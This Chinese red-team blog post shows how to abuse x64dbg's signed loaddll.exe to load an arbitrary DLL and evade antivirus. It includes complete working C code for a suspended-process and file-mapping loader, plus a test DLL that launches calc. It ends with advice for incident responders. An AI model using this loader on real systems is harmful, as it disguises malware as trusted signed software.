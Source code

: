 ```yaml
---
title: "x64dbg中的白加黑利用"
date: 2022-08-17T17:23:32+08:00
description: 在木马样本与杀毒软件的对抗中，再隐蔽的木马在被发现的那一刻，它的这一生就结束了。杀毒软件厂商通过SHA1/2、MD5等算法取得样本的唯一值来构建云端的特征库......
url: /archivers/2022-08-17/1
---
```



## 0x00 何谓白加黑？

在木马样本与杀毒软件的对抗中，再隐蔽的木马在被发现的那一刻，它的这一生就结束了。杀毒软件厂商通过SHA1/2、MD5等算法取得样本的唯一值来构建云端的特征库，当下一次攻击发生时，将会通过特征库进行比对，因此成本对抗不言而喻，红队的木马需要重新修改、编译，大大增加了对抗的时间、精力，这就是威胁情报的一种价值。反观有些软件确实会需要开发一些敏感行为的功能，如修改注册表、屏幕录像截图但这些是用户知情且授权的行为，这时杀毒软件再进行拦截的话，将大大降低软件使用的体验，所以出现了软件签名技术可以解决这类问题，当然软件签名技术不仅仅是为了只解决这一个问题而出现的。有些APT组织会通过控制软件开发商的代码仓库进行投毒或者通过入侵软件开发商来窃取签名，给自己的木马加上签名验证，杀毒软件遇到签名将会默认信任这个程序。但攻击软件开发商所需要投入的成本也相对比较高，telegram上也出现了花钱签名的服务，不过白嫖怪的数量可比金主爸爸要多，白嫖怪为了得到一个可以以签名程序运行自己任意代码的条件就会去挖掘一些软件厂商的程序是否存在DLL劫持漏洞，利用DLL劫持的特性达到披着羊皮的狼的目的。现阶段基本上大多数的APT组织在进行权限维持都会采用白加黑的技术来绕过杀毒软件的拦截和检测（特殊行为除外）。本文将会分享一个关于x64dbg这款调试工具的白加黑利用技巧。

## 0x02 x64dbg的DLL加载组件

[x64dbg](https://github.com/x64dbg/x64dbg) 是一个开源的Windows平台下的调试工具，相比于OllyDbg我更喜欢x64dbg。打开x64dbg的目录，可以看到有一个loaddll.exe程序，顾名思义，它一定具有dll加载的功能。

![](../../../static/images/2022-08-17-15-50-00.png)

在跟进到它的[源代码](https://github.com/x64dbg/x64dbg/blob/development/src/loaddll/loaddll.cpp)：

```cpp
#include <windows.h>

wchar_t szLibraryPath[512];

int main()
{
    wchar_t szName[256];
    wsprintfW(szName, L"Local\\szLibraryName%X", (unsigned int)GetCurrentProcessId());
    HANDLE hMapFile = OpenFileMappingW(FILE_MAP_READ, false, szName);
    if(hMapFile)
    {
        const wchar_t* szLibraryPathMapping = (const wchar_t*)MapViewOfFile(hMapFile, FILE_MAP_READ, 0, 0, sizeof(szLibraryPath));
        if(szLibraryPathMapping)
        {
            lstrcpyW(szLibraryPath, szLibraryPathMapping);
            UnmapViewOfFile(szLibraryPathMapping);
        }
        CloseHandle(hMapFile);
    }
    if(szLibraryPath[0])
        return (LoadLibraryW(szLibraryPath) != NULL);
    return 0;
}
```

代码非常简单，大致功能是读取本地系统上一个文件映射具柄，从文件映射句柄中获取要加载的dll文件路径。文件句柄的名称包含了当前进程的PID，是不固定的。那么如何实现任意文件加载呢？

这个问题也比较简单，我的大致思路：

1. 调用CreatProcess创建一个暂停的主线程的loaddll.exe
2. 获得loaddll.exe这个进程的启动信息，读取到它的进程ID
3. 创建文件映射，把要加载的dll路径写入文件映射中，等待loaddll.exe读取
4. 将loaddll.exe进程的线程从挂起状态恢复成运行状态

Invoke-Loader测试代码：

```c
#include <Windows.h>
#include <stdio.h>
#include <sddl.h>

WCHAR dllPath[1024] = L"C:\\Windows\\Temp\\Test\\DllMain.dll";
WCHAR loaderPath[] = L"C:\\Windows\\Temp\\Test\\loaddll.exe";

HANDLE CreateMapFile() {
	HANDLE hFile = NULL;
	hFile = CreateFile(L"C:\\Windows\\Temp\\Test\\2.log", FILE_GENERIC_READ | FILE_GENERIC_WRITE, FILE_SHARE_READ,
		NULL,
		OPEN_ALWAYS,
		NULL,
		NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		return NULL;
	}
	WriteFile(hFile, dllPath, sizeof(dllPath), NULL, NULL);
	return hFile;
}

int __stdcall WinMain(
	HINSTANCE hInstance,
	HINSTANCE hPrevInstance,
	LPSTR     lpCmdLine,
	int       nShowCmd
){
	wchar_t szName[256];
	DWORD dwFileSize = 0;
	
	HANDLE hFile = NULL;
	HANDLE hFileMap = NULL;
	SECURITY_ATTRIBUTES attributes;
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	ZeroMemory(&si, sizeof(si));
	si.cb = sizeof(si);
	ZeroMemory(&pi, sizeof(pi));
	ZeroMemory(&attributes, sizeof(attributes));
	attributes.nLength = sizeof(attributes);
	
	ConvertStringSecurityDescriptorToSecurityDescriptorA(
		"D:P(A;OICI;GA;;;SY)(A;OICI;GA;;;BA)(A;OICI;GWGR;;;IU)",
		SDDL_REVISION_1,
		&attributes.lpSecurityDescriptor,
		NULL);

	hFile = CreateMapFile();
	if (hFile == NULL) {
		return 0;
	}
	
	
	BOOL bStatus = CreateProcessW(loaderPath, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED| CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
	if (bStatus == NULL) {
		/*wprintf(L"[-] CreateProcess Error %d \n", GetLastError());*/
		return 0;
	}
	
	ZeroMemory(szName, sizeof(szName));
	
	wsprintfW(szName, L"Local\\szLibraryName%X", (unsigned int)pi.dwProcessId);
	
	
	hFileMap = CreateFileMappingW(hFile, &attributes, PAGE_READWRITE, 0, 1024, szName);
    

	ResumeThread(pi.hThread);

	Sleep(3000);
	return 0;
}
```

编写一个dll文件用于测试：

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <stdio.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        // 弹出一个计算器
        WinExec("calc.exe", TRUE);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

## 0x03 加载任意dll测试

![](../../../static/images/2022-08-17-15-51-15.png)

双击Invoke-Loader.exe，就会弹出计算器：

![](../../../static/images/2022-08-17-15-51-29.png)

通过ProcessMonitor分析一下过程是不是如我所想的那样：

![](../../../static/images/2022-08-17-15-51-41.png)

首先创建了2.log，内容是DllMain.dll的绝对路径，然后再创建loaddll.exe：



![](../../../static/images/2022-08-17-15-51-52.png)

主线程创建的时候因为是暂停状态，是没有加载任何dll的，当文件映射设置完毕，恢复线程状态后，它成功的加载了DllMain.dll。
![](../../../static/images/2022-08-17-15-52-04.png)

![](../../../static/images/2022-08-17-15-52-14.png)

这里的calc.exe的父进程是loaddll.exe。

## 0x04 总结


![](../../../static/images/2022-08-17-15-52-37.png)

该程序上次更新已经是2020年了，可能已经被大范围滥用。


![](../../../static/images/2022-08-17-15-52-47.png)

白加黑是一个降低红队攻击成本的一个方案，能够规避很多杀毒软件的拦截和扫描，在应急响应阶段对于签名程序的分析应更加关注签名程序加载的模块、进程行为做了哪些操作，签名验证仅仅是提高了攻击的门槛，不应该绝对信任签名程序。